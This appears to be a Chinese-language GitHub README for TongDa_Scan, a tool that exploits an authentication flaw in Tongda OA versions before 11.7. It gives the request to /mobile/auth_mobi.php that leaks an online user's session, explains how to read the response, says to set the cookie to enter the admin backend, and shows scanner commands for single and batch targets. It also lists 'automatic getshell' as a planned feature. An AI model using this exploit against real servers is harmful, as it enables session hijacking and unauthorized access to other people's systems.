


# 漏洞简述

通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统

# 影响版本

通达OA < v11.7

# 漏洞利用

检测当前用户是否存在线

```
http://127.0.0.1/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```

> 不在线

不在线显示 `RELOGIN`



> 在线

在线页面空白，但已拿到`SESSION`



设置Cookie可直接登录后台

```
http://127.0.0.1/general/index.php
```

# 工具利用

[https://github.com/S1xHcL/TongDa_Scan](https://github.com/S1xHcL/TongDa_Scan)

```
# 指定 URL
python3 .\TongDa_Scan.py -u 127.0.0.1

# 指定 uid 进行扫描
python3 .\TongDa_Scan.py -u 127.0.0.1 -i 1

# 批量扫描，默认扫描UID为1
python3 .\TongDa_Scan.py -f ./list.txt
```

# 待更新

1. 多线程，加快扫描速度
2. 自动getshell

# 引用

[通达OA v11.7 在线用户登录漏洞 · PeiQi WiKi文库](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.7%20%E5%9C%A8%E7%BA%BF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E.html)
